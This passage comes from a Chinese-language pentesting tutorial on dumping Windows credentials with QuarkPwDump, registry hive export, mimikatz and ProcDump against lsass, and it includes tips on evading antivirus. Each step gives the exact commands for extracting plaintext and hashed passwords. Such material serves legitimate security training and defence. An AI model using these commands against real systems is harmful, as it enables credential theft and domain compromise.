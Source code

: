 ```
QuarkPwDump.exe -dhl
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20191019215856-97b29a6a-f278-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191019215856-97b29a6a-f278-1.png)

**工具地址：**https://github.com/quarkslab/quarkspwdump

## Reg导出注册表本地分析

这个需要system权限（在我的xp上测试竟然无限蓝屏重启，懵逼了。。），在win2003上可以测试成功：

```
reg save hklm\sam sam.hive
reg save hklm\system system.hive
reg save hklm\security security.hive
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20191019215919-a57e0558-f278-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191019215919-a57e0558-f278-1.png)

然后导入到本地的mimikatz中：

```
lsadump::sam /system:system.hive /sam:sam.hive
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20191019215937-b015ae26-f278-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191019215937-b015ae26-f278-1.png)

## mimikatz

神器不必多说，mimikatz可以抓取上面提到的`lsass.exe`进程存储在内存中的明文密码，前提是该用户在该服务器上登录过

需要administrator及以上权限，需要免杀

```
privilege::debug
sekurlsa::logonpasswords
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20191019215953-b95bfb34-f278-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191019215953-b95bfb34-f278-1.png)

可以看到不仅抓取到了本机的administrator的密码，还抓取到了域管理员的密码，在域渗透的过程中会用到

**工具地址：**https://github.com/gentilkiwi/mimikatz/releases

## ProcDump导出数据本地分析

这种方式最大的优势就是免杀，因为ProcDump是微软官方提供的。但缺点也很明显，导出的数据文件可能会很大（但我本地测试的时候速度还是很快的）。需要administrator及以上权限。

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20191019220011-c4848af8-f278-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191019220011-c4848af8-f278-1.png)
